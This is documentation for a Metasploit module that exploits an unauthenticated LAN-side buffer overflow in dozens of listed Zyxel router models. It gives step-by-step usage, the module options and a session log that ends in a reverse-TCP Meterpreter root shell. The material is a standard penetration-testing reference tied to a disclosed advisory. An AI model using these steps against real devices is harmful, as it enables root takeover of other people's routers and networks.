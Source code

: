 ## Vulnerable Application

This module exploits a buffer-overflow in multiple Zyxel devices. The vulnerabilitiy stems from missing string length checks.
The vulnerability can only be exploited from the LAN side, but does not require authentication. As ASLR is activated, the libc address will be bruteforced.
Thus the webserver will crash until successfull exploitation. On average this process takes 20 minutes.

This vulnerability was discovered by Steffen Robertz, Gerhard Hechenberger, Stefan Viehboeck and Thomas Weber of the SEC Consult Vulnerability Lab in Vienna.
The full writeup of all vulnerabilities is available here: [https://sec-consult.com/vulnerability-lab/advisory/multiple-critical-vulnerabilities-in-multiple-zyxel-devices/]

## Vulnerable Application

| Device       | Firmware  |
| ------------ | --------- |
| AMG1302-T11C | EOL       |
| VMG3925-B10C | EOL       |
| VMG8924-B10D | EOL       |
| VMG1312-B10D | EOL       |
| VMG3312-T20A | EOL       |
| VMG3625-T20A | EOL       |
| VMG3925-B10B | EOL       |
| VMG3925-B10C | EOL       |
| VMG3925-B30C | EOL       |
| VMG3926-B10A | EOL       |
| VMG5313-B10B | EOL       |
| VMG5313-B30B | EOL       |
| VMG8623-T50A | EOL       |
| VMG8823-B10B | EOL       |
| VMG8823-B30B | EOL       |
| VMG8823-B50B | EOL       |
| VMG8823-B60B | EOL       | 
| VMG8924-B10D | EOL       |
| VMG8924-B30D | EOL       |
| PMG5317-T20A | EOL       |
| DX3301-T0 | V5.50(ABVY.3)C0 |
| DX5401-B0 | V5.17(ABYO.1)C0 |
| EMG3525-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG3525-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5523-T50B | EMEA - V5.50(ABPM.6)C0 |
| EMG5523-T50B | S. America - V5.50(ABSL.0)b12 |
| EMG5723-T50K | V5.50(ABOM.7)C0 |
| EX3301-T0 | V5.50(ABVY.3)C0 |
| EX5401-B0 | V5.17(ABYO.1)C0 |
| EX5501-B0 | V5.17(ABRY.2)C0 |
| LTE3301-PLUS | V1.00(ABQU.3)C0 |
| LTE7240-M403 | V2.00(ABMG.4)C0 |
| VMG1312-T20B | V5.50(ABSB.5)C0 |
| VMG3625-T50B | V5.50(ABPM.6)C0 |
| VMG3927-B50A | V5.17(ABMT.6)C0 |
| VMG3927-B60A | V5.17(ABMT.6)C0 |
| VMG3927-T50K | V5.50(ABOM.7)C0 |
| VMG4005-B50A | V5.15(ABQA.2)C0 |
| VMG8623-T50B | V5.50(ABPM.6)C0 |
| VMG8825-B50A | V5.17(ABMT.6)C0 |
| VMG8825-B50B | V5.17(ABNY.7)C0 |
| VMG8825-B60A | V5.17(ABMT.6)C0 |
| VMG8825-B60B | V5.17(ABNY.7)C0 |
| VMG8825-T50K | V5.50(ABOM.7)C0 |
| XMG3927-B50A | V5.17(ABMT.6)C0 |
| XMG8825-B50A | V5.17(ABMT.6)C0 |
| VPN2S | V1.20(ABLN.2)_00210319C1 |
| AX7501-B0 | V5.17(ABPC.1)C0 |
| EP240P | V5.40(ABVH.1)C0 |
| PMG5317-T20B | V5.40(ABKI.4)C0 |
| PMG5617GA | V5.40(ABNA.2)C0 |
| PMG5622GA | V5.40(ABNB.2)C0 |
| WX3100-T0 | V5.50(ABVL.1)C0 |
| WX3401-B0 | V5.17(ABVE.1)C0 |
| WSQ50 (Multy X) | V2.20(ABKJ.7)C0 |
| WSQ60 (Multy Plus) | V2.20(ABND.8)C0 |

## Verification Steps
 Follow these steps to exploit the target:
 
  1. Connect to a target on the LAN interface
  2. Start msfconsole
  3. Do: `use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce`
  4. Set RHOST, LHOST and SRVHOST
  5. Do `check`
  6. Do: `run`
  7. You should get a shell. On average this will take 20 minutes.
## Options
```
Module options (exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host
   

Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```



## Scenarios
```
msf6 > use exploit/linux/misc/zyxel_multiple_devices_zhttp_lan_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set LHOST XXX.XXX.XXX.XXX
LHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set RHOSTS XXX.XXX.XXX.XXX
RHOSTS => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > check
[+] XXX.XXX.XXX.XXX:80 - The target is vulnerable.
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > set SRVHOST XXX.XXX.XXX.XXX
SRVHOST => XXX.XXX.XXX.XXX
msf6 exploit(linux/misc/zyxel_multiple_devices_zhttp_lan_rce) > run

[*] Started reverse TCP handler on XXX.XXX.XXX.XXX:4444
[*] Attempting to exploit VMG3312-T20A <= EOL
[*] Starting up our web service on XXX.XXX.XXX.XXX:8080 ...
[*] Using URL: http://XXX.XXX.XXX.XXX:8080/o
[*] Going to bruteforce ASLR, this will take a while...
[*] Trying to overflow the buffer, attempt 1
[*] Trying to overflow the buffer, attempt 2
[*] Trying to overflow the buffer, attempt 3
[*] Trying to overflow the buffer, attempt 4
[*] Trying to overflow the buffer, attempt 5
[*] Trying to overflow the buffer, attempt 6
[*] Trying to overflow the buffer, attempt 7
[*] Trying to overflow the buffer, attempt 8
[*] Trying to overflow the buffer, attempt 9
[*] Trying to overflow the buffer, attempt 10
[...]
[*] Trying to overflow the buffer, attempt 135
[*] Trying to overflow the buffer, attempt 136
[*] Trying to overflow the buffer, attempt 137
[*] Trying to overflow the buffer, attempt 138
[*] Trying to overflow the buffer, attempt 139
[+] XXX.XXX.XXX.XXX:80 - Sending executable to the router
[+] XXX.XXX.XXX.XXX:80 - A shell should connect soon!
[*] Sending stage (908480 bytes) to XXX.XXX.XXX.XXX
[*] Meterpreter session 1 opened (XXX.XXX.XXX.XXX:4444 -> XXX.XXX.XXX.XXX:55253) at 2022-07-24 19:03:41 +0200
[*] Server stopped.

meterpreter > shell
Process 9871 created.
Channel 1 created.
id
uid=0(root) gid=0
```
